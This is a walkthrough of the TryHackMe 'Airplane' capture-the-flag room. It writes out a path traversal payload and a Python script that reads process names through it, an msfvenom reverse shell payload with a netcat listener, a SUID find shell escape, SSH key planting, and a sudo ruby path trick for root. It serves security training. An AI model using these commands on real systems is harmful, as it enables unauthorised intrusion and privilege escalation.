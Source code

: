 +++
title = 'Airplane THM Walkthrough'
date = 2024-06-17T07:17:09-04:00
summary = 'A walkthrough of a medium room in TryHackMe. A great room needing critical thinking to exploit path traversal attacks to scripting to manipulate a gdbserver process to a tricky privilege escalation by ruby.'
+++

# Airplane TryHackMe Walkthrough

![](/images/airplane/airplane.png)
Such a fun challenge. First add your ip to /etc/hosts

After booting up the box, the first thing is to perform enumeration. I first scanned with nmap and got some interesting results:
![](/images/airplane/airplanescan.png)\
Port 22 -> Just ssh. We wouldn't get to this first\
Port 6048 -> NOTHING running! This left me confused\
Port 8000 -> http running. Interesting! I navigated to the website

![](/images/airplane/airplaneport8000.png)
Just an html site. I viewed page source if any hints, none. Checked if *robots.txt* exists, it doesn't.\
The next thing I always do is run directoty scanners to find interesting pages, but none
![](/images/airplane/airplanedirsearch.png)\
Dirb gave nothing too :( \
After being stuck for sometime, I looked at the url and suspected it could be vulnerable to path traversal due to its structure /?page=\
I tried the obvious attack payload ../../../../../etc/passwd and lol
![](/images/airplane/airplanepasswdfile.png)

Going through the passwd file, we find 2 users, carlos and hudson

Now here is where I got stuck the most. After a day, or so, I started thinking about the port open that had nothing. After some research, I found that there was I way I could check the processes running on the machine. I used GPT to assist me write a script to extract these processes.(Yes, AI will make you a good security analyst if you know how to use it well). The script:

```
import requests

# Base URL of the target vulnerable to path traversal
base_url = 'http://airplane.thm:8000/?page='

# Function to check and save process names
def check_processes():
    with open('process.txt', 'w') as file:
        for pid in range(1, 1001):
            url = f'{base_url}../../../../../../../../proc/{pid}/comm'
            response = requests.get(url)
            if response.status_code == 200 and response.text.strip() != "Page not found" and response.text.strip():
                file.write(f'PID {pid}: {response.text.strip()}\n')

# Run the function
check_processes()
```
So the processes are output in the file process.txt. Going through them, I find one interesting one, airplane

![](/images/airplane/airplaneairplaneprocess.png)
Figured it must be the one running on port 6048, and it is a gdbserver process.

Searching on searchsploit, found an exploit
![](/images/airplane/airplanesearchsploit.png)

For the exploit, you need a reverse shell code, which we can generate by msfvenom
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.4.84.61 LPORT=1234 PrependFork=true -o shell.bin

Replace your ip. Open another terminal window and listen on an empty port with netcat
> nc -nvlp 1234

Now run the python script
![](/images/airplane/airplanesendpayload.png)

A reverse shell is created, for the user hudson
![](/images/airplane/airplanereverseshell.png)

Stabilize the shell by:
> python3 -c 'import pty; pty.spawn("/bin/bash")'

I checked /home/hudson, but nothing. It means we need to do lateral escalation to go to user carlos. Now I tried maybe checking *sudo -l* but it asks for password. Tried multiple stuff but settled on checking SUID
![](/images/airplane/airplanesuid.png)

I was interested by the SUID find, so it checked on my goto to privilege escalation tool, [GTFOBins](https://gtfobins.github.io/)
![](/images/airplane/airplanefindgtfobins.png)

Exploit by the command
> ./find . -exec /bin/sh -p \; -quit

![](/images/airplane/airplanesuidexploit.png)

We get euid of carlos while on user hudson. cat /home/carlos/user.txt for first flag

Now we need to do **Privilege Escalation to become Root**

But nothing much we can do from hudson. But since we can now create files on /home/carlos, we can create an ssh key file and use it to login as carlos.\
On your machine, generate ssh keys by:
> ssh-keygen

![](/images/airplane/airplanessh-keygen.png)

Now copy your keygen.pub to /home/carlos/.ssh/authorized_keys
![](/images/airplane/airplaneauthorizedkeys.png)

Perfect, now head on to ssh via the other private key
> ssh -i airplane_rsa carlos@10.10.238.182

![](/images/airplane/airplanesshlogin.png)

Niceeee!! We in as Carlos. Trying *sudo -l*, carlos can exploit some commands, ruby, as root without root password:
![](/images/airplane/airplanesudo-l.png)

I head to GTFOBins, and get this command to exploit ruby as root
> sudo ruby -e 'exec "/bin/sh"'

The problem is it will require carlos password, which we don't have. Damn! I remembered though you can run a file from another directory by going back using ../ the proceeding to what you need to run. So, we can run the file ruby from the directory /root. First, put the escalation command in a directory like /tmp

> echo 'exec "/bin/sh"' > /tmp/sudo.rb

Now we can execute it from root:
> sudo /usr/bin/ruby /root/../tmp/sudo.rb

![](/images/airplane/airplanesudoescalation.png)

There! We get root privileges!! FUN!!
